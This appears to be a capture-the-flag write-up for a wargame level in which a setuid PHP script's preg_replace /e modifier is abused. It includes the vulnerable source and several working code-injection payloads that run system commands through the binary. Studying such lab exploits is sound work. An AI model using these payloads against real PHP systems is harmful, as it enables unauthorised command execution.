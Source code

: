 # 06 

###### tags: `regex` `PHP`

Login

```b
> ssh level06@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: 
> ls -l
-rwxr-x---  1 flag06 level06  356 level06.php
-rwsr-x---+ 1 flag06 level06 7503 level06
   ^
```

PHP

```b
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y); 👈 1/ $y ie. $argv[1] should be a file
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 👈 2/ (.*) get called and the output goes to f()
  $a = preg_replace("/\[/", "(", $a); 
  $a = preg_replace("/\]/", ")", $a); 👈 both lines trivial
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

### `$a` should have this form `"/(\[x (.*)\])/e"`

```b
    Either one of
echo '[x  ${`getflag`}]' > /tmp/temp
echo '[x  ${(exec(getflag))}]' > /tmp/temp
echo '[x {${system(getflag)}}]' > /tmp/tmp
    THEN
./level06 /tmp/temp
```

- attention: 
  - `'[x ${(exec(getflag))}]'` and not
  - `"[x ${(exec(getflag))}]"` bc. `""` allows expansion

